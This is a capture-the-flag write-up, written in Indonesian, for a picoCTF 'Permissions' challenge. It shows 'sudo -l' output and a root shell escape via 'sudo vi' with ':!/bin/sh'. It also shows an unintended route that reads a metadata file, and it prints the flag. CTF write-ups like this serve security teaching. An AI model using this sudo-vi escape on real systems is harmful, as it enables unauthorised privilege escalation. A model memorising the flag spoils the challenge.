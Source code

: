 # Permissions

## Deskripsi
Can you read files in the root file?

Can you login and read the root file?

## Points 
100

## Hint
What permissions do you have?

## Solusi
Challenge dengan instance yang bisa diakses melalui ssh. Setelah login dicek permission dari sudoer user yang ada dengan perintah
```
$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Terlihat dari hasil di atas kita bisa menjalankan vi sebagai root.
Pada link [berikut](https://computersecuritystudent.com/UNIX/SUDO/lesson1/) terdapat cara untuk mengeksploitasi vi untuk bisa login sebagai root.
Pertama buat sebuah file dengan menggunakan perintah sudo vi
```shell
sudo vi test
```
Kemudian ketik `:!/bin/sh` pada vi. Selanjutnya user akan login sebagai root melalui vi.

![Login as root](./id.png)

### Unintended solution
Sama seperti challenge chrono, pada challenge ini juga terdapat unintended solution untuk mendapatkan flag
```shell
$ cat /challenge/metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_f6ad392b}", "username": "REDACTED", "password": "REDACTED"}
```

## Flag
### picoCTF{uS1ng_v1m_3dit0r_f6ad392b}



